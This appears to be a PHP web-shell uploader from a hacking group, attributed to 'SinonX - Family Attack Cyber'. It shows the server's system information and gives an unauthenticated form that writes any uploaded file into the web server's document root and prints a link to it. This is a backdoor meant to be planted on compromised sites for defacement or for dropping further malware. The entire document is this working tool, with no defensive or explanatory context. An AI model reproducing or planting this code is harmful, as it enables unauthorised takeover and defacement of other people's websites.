 # Anti
Antijancok
<?php
echo "Priv8 Home Root Uploader by SinonX - Family Attack Cyber<br>";
echo "<b>".php_uname()."</b><br>";
echo "<form method='post' enctype='multipart/form-data'>
	  <input type='file' name='idx_file'>
	  <input type='submit' name='upload' value='upload'>
	  </form>";
$root = $_SERVER['DOCUMENT_ROOT'];
$files = $_FILES['idx_file']['name'];
$dest = $root.'/'.$files;
if(isset($_POST['upload'])) {
	if(is_writable($root)) {
		if(@copy($_FILES['idx_file']['tmp_name'], $dest)) {
			$web = "http://".$_SERVER['HTTP_HOST']."/";
			echo "sukses upload -> <a href='$web/$files' target='_blank'><b><u>$web/$files</u></b></a>";
		} else {
			echo "gagal upload di document root.";
		}
	} else {
		if(@copy($_FILES['idx_file']['tmp_name'], $files)) {
			echo "sukses upload <b>$files</b> di folder ini";
		} else {
			echo "gagal upload";
		}
	}
}
?>
